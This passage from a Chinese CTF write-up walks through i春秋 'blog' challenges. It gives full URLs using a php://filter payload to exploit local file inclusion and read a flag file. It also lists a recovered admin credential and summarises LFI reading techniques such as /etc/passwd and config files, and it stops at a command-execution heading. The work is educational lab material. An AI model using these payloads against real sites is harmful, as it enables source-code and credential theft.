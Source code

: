 拿着管理员的用户名密码登录，于是可以访问到：

```
http://225161df71684d5286170732c32356bc29b8cd3b3e3344f9.game.ichunqiu.com/blog_manage/manager.php?module=article_manage&name=php
```

典型文件包含，尝试php伪协议读flag，解码读flag

```
http://225161df71684d5286170732c32356bc29b8cd3b3e3344f9.game.ichunqiu.com/blog_manage/manager.php?module=php://filter/read=convert.base64-encode/resource=../flag.php&name=

```


## blog进阶篇

仔细回顾上面那道题并没有用到KindEditor的目录浏览漏洞，进阶篇该用上了

### 注入点

管理员用户密码还是直接用刚才的方法打：

admin | 3177d917a0053c6161207e733c84356d
admin | 19-10-1997

### 文件包含

参考：[LFI漏洞利用总结](https://www.webshell.cc/2949.html)

显然这里文件包含使用伪协议是没用的，也尝试了用注入点去写木马，同样没有成功。那让我们回顾一下文件包含的神奇作用吧，简单分成两大类：读取和命令执行

#### 读取

##### 读源码

- include()
- require()

可以通过php伪协议读取源码：

```
php://filter/read=convert.base64-encode/resource=index.php
```

allow_url_fopen与allow_url_include，只是保护了http(s)和ftp(s)但是并没有影响php或date(new in php5.2.0)urls这些url形式。所以禁止使用php伪协议一般的方式是在参数字符串前拼接路径`./`

##### 读取敏感文件

- 日志
- 配置文件
- etc/passwd
- .htaccess

#### 命令执行
